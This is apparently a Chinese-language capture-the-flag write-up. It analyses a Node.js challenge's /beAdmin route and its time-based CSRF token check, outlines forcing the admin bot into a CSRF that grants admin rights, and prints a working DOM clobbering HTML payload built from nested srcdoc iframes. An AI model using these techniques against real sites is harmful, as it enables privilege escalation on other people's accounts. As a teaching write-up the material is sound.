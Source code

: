 还有个成为~~魔法少女~~admin的路由

```js
app.post('/beAdmin', (req, res) => {
    if (req.session.user != 'admin') {
        res.send("sorry, only admin can be admin")
        return
    }
    const username = req.body.username
    const csrftoken = req.body.csrftoken
    if (ValidateToken(csrftoken)) {
        User.updateMany({ username: username }, { isAdmin: true },
            (err, users) => {
                if (err) {
                    res.send('something error when being admin')
                    return
                }
                if (users.length == 0) {
                    res.send('no one can be admin')
                } else {
                    res.send('wow success wow')
                }
            }
        )
    } else {
        res.send('validate error')
    }
})
```

思路比较清晰，构造payload1.html，其中包含js脚本让admin访问/beAdmin让我们自己的账号成为admin，访问/flag获取前半flag，需要绕过csrftoken

```js
const ValidateToken = (Token) => {
    var sha256 = crypto.createHash('sha256');
    return sha256.update(Math.sin(Math.floor(Date.now() / 1000)).toString()).digest('hex') === Token;
}
```

我们可以大致爆破/预测

而第二部分flag，由于禁用了页面js，我们可以随意发挥的地方就只有css和少得可怜的html标签了，需要满足的关键条件是

```
fff.lll.aaa.ggg.value == "this_is_what_i_want"
```

ggg.value被嵌套在上面几层的引用，可以参照陆队[这篇文章](https://blog.zeddyu.info/2020/03/04/Dom-Clobbering/#more)

```html
<iframe name=fff srcdoc="<iframe srcdoc='<input id=aaa name=ggg href=cid:Clobbered
value=this_is_what_i_want>test</input><a id=aaa>' name=lll>"></iframe>
```

payload参考[Nu1L战队的wp](https://t.zsxq.com/03M3bIa6a)
